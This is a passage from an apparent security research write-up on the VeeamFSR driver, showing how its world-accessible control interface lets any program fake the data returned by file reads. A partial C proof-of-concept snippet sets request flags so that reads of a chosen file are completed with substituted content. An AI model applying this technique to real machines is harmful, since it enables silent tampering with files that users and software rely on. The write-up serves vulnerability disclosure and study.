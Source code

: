 [![Sniff.png](/images/veeamon/Sniff.png)](/images/veeamon/Sniff.png)

### [Faking reads]
Yet another delicious feature that VeeamFSR provides, namely to Everyone, is faking read data. This is what the RFlags_CompleteRequest flag is intended for. Setting this flag for the 3rd (IRP_MJ_READ) entry of the file's array of flags tells the driver to pend read requests and to map read buffers to the controller app's address space. The controller app might fill the buffer with fake or modified data and complete the request, passing the RFlags_CompleteRequest flag to apply changes. Unwaiting requests with this flag instructs the driver to complete the request using the IoCompleteRequest function instead of sending it to the actual file system driver. Thus, the controller app can actually fake data of any read operation in the OS. Pure evil, eh? The following snippet fakes the content of AzureDiamond.txt with '*' symbols, while the real content of the file is the ['hunter2'](https://knowyourmeme.com/memes/hunter2) string:
{% highlight C %}
case 0x0: //IRP_MJ_CREATE
case 0x33: //Fast _IRP_MJ_CREATE
{
    PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);

    FlagsDescritptor FlagsDescs[2];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], FakeReadName))
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = RF_CompleteRequest;
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    else
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = (RequestFlags)(RF_PassDown | RF_CallPostHandler);
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    CtlSetStreamFlags(hDevice, &IOEntry->Ctrl, FlagsDescs, 2);

    CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);